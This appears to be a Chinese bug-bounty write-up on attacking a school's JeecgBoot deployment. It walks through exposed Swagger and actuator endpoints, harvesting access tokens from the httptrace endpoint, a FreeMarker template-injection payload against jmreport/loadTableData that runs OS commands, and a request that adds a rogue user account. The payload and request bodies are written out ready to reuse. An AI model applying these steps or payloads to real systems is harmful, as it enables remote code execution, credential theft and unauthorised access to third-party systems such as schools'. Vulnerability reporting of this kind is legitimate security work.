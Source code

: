 ```yaml
---
title: 【SRC】jeecg框架-导致敏感信息泄露
categories:
  - SRC
date: 2025-10-16
image: images/101.webp
---
```

# 案例：xxx实验小学
（**特定目录访问swagger**）
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251017132256.png)
## 目录一
**1：输入手机号和密码（随意输），然后抓包**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251017132314.png)
**2：复制host界面，访问web信息**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251017132332.png)
**3：然后拼接jeecg的目录接口，/jeecg-boot/v2/api-docs?group=后台接口**
**Jeecg-boot/druid/login.html**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251017132404.png)
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251017132436.png)
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251017132446.png)
## 目录二：
**1：在jeecg-boot后面接上actuator,获得后续的大量接口**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251017132531.png)
**2：将第一个案例中的/jeecg-boot/v2/api-docs粘贴bp中，发包，选择一个特定接口**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251017132554.png)
```
/jeecg-boot/sys/formFile/add
```
**3:将get请求方式改为post请求方式，然后把content-type的格式改为json**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251017132616.png)
**4:使用jeecg-boot/actuator/httptrace获得access-token**
**(会保留一些用户登录的token信息）**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251017132741.png)
**5:将token输入swagger的接口中成功访问,比如打jeecg的rce接口：**
将下面的请求参数也一并复制的数据包里面（post）
```
{"dbsource":"","sql":"select '<#assign value=\"freemarker.template.utility.Execute\"?

new()>${value(\"echo 123k1msns\")}'","tableName":"test_demo);""pageNo":1,"pagesize":10}
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251017132827.png)
Jeecg-boot/jmreport/loadTableData
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251017132850.png)
放到最后
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251017132943.png)
**6：输入指令比如whoami**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251017133005.png)
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251017133028.png)
**7:又或者下面的接口/jeecg-boot/sys/role/list，也只有获得了Access-Token才可以成功访问**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251017133055.png)
**8:访问后获得普通教师的id,使用添加用户的接口添加user用户**
**接口： /server/sys/user/add**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251017133130.png)
```
{
 "selectedroles":"1680133311360319489",
 "createBy":"admin",
 "userIdentity":"1",
 "username":"test12345",
 "password":"test12345",
 "confirmpassword":"test12345",
 "realname":"test12345"
}
```
**9:修改用户名和密码，发包，添加成功**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251017133208.png)
**10：在登录界面输入用户名和密码，登录成功**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20251017133223.png)